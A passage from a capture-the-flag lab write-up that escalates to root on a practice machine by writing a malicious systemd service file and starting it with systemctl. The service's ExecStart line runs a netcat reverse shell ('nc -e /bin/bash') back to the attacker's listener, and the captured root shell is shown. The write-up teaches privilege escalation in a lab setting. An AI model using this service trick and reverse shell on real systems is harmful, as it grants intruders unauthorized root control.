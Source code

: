 ### Malicious Service

A service is defined by a `.service` file. The `systemctl` is used to link it to `systemd`, and then used again to start the service. What the service does is defined by the `.service` file.

[gtfobins](https://gtfobins.github.io/gtfobins/systemctl/) has a page for `systemctl`, and it gives an example where a single command is executed and output to a file in `tmp`. I’ll modify that slightly to give me a shell.

```

pepper@jasmin:/dev/shm$ cat >0xdf.service<<EOF
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.8 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
EOF

```

Now I use `systemctl` to link this service:

```

pepper@jasmin:/dev/shm$ systemctl link /dev/shm/0xdf.service

```

Now start the service, with a `nc` listener ready to catch the shell:

```

pepper@jasmin:/dev/shm$ systemctl start 0xdf

```

My listener gets a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:37160.
id
uid=0(root) gid=0(root) groups=0(root)

```
